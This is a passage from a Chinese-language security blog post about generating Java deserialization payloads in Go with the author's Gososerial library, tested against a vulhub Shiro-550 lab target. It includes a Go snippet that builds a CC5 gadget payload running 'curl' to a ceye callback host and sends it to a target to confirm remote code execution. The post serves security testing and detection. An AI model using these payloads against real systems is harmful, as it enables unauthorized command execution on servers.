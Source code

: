 ```
`}`
```



## 测试

按照思路生成好之后，测试时先用ysoserial生成数据，xxd命令阅读得到随机数，把变量randNum替换

然后生成Payload进行判断，笔者调试过程遇到不少的坑，比如randNum忘记做`hex.encode`了

而其中`cmdLen`和`dataLen`变量其实是无法一眼看出的，笔者能够确认是因为跑了多次ysoserial，对比分析得出的结果



## 实践

笔者在github提交了比较完整的一个库：[https://github.com/EmYiQing/Gososerial](https://github.com/EmYiQing/Gososerial)

该库支持了CC1-CC7,CCK1-CCK4,CB1这些链，并且经过了验证没有问题，可以做到ysoserial的效果

初步确定生成的payload没问题，进一步确认需要靶机

这里用了vulhub的shiro550反序列化靶机，用curl命令结合ceye平台，成功触发

（下图为笔者用golang编写的shiro检测小工具，调用了gososerial的函数，成功执行）

```
randStr = tool.GetRandomLetter(20)
payload = gososerial.GetCC5("curl " + ceyeInfo.Identifier + "/" + randStr)
log.Info("check %s", gadget.CC5)
SendPayload(key, payload, target)
if checkCeyeResp(ceyeInfo, randStr) `{`
    log.Info("payload %s success", gadget.CC5)
`}`
```

[![](https://p3.ssl.qhimg.com/t01eea03c60c71731f2.png)](https://p3.ssl.qhimg.com/t01eea03c60c71731f2.png)



## 总结

整个过程不难，但需要耐心和眼力

其他的反序列化链换汤不换药，甚至`TomcatEcho`也是类似的原理

因此安全开发者可以在不使用ysoserial的情况下，直接动态生成payload

另外文中这种半猜半测试的实现方式不妥，有兴趣的大佬可以参考java底层反序列化的实现，对二进制数据做进一步的分析和构造

（p师傅好像正在做这件事）
